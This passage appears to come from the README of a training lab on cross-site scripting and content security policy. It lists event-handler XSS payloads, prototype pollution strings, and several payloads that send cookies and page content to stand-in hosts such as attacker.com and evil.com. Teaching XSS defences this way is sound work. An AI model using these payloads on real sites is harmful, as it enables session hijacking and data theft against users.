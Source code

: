 ### Event Handler XSS
```html
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
```

### Post-Exploitation Payloads
```html
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>
<script>new Image().src='https://evil.com?session='+document.cookie</script>
<img src=x onerror="navigator.sendBeacon('https://attacker.com',document.cookie)">
<script>fetch('https://evil.com?data='+btoa(document.body.innerHTML))</script>
<form action="https://attacker.com" method="POST"><input name="data" value="stolen"></form><script>document.forms[0].submit()</script>
```

### Prototype Pollution
```
__proto__[innerHTML]=<img src=x onerror=alert('Polluted')>
constructor[prototype][xss]=<svg/onload=alert('PP-XSS')>
__proto__[onerror]=alert('Prototype Pollution')
```

## 🔍 Learning Objectives

1. **Understand Attack Vectors:** Learn how different XSS attacks work and where they originate
2. **Recognize Vulnerabilities:** Identify unsafe coding practices that lead to XSS
3. **Apply Defenses:** See which controls are effective against which attacks
4. **Defense in Depth:** Understand why multiple layers of security are necessary
5. **Post-Exploitation Prevention:** Learn how CSP can limit damage even after XSS is achieved
6. **Data Exfiltration:** Understand how attackers weaponize XSS for session hijacking and data theft
7. **CSP Directives:** Master different CSP policies and their effectiveness

## 🏗️ Technical Architecture

### Backend
- **Framework:** Express.js
- **Database:** SQLite (for stored XSS demonstration)
- **Middleware:** Custom WAF, CSP, and validation middleware

### Frontend
- **Base Pages:** HTML, CSS, vanilla JavaScript
- **Styling:** Custom CSS with responsive design

### Infrastructure
- **Containerization:** Docker
- **Orchestration:** Docker Compose
- **Port:** 3000
